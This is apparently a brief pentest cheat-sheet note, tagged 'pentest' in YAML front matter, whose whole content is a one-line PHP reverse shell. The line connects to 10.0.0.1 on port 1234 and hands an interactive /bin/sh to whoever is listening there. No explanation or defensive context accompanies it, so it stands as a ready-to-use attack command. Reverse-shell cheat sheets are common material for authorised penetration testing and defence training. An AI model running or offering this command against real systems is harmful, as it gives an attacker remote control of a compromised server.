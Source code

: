 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

### Reverse shell in PHP
`php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`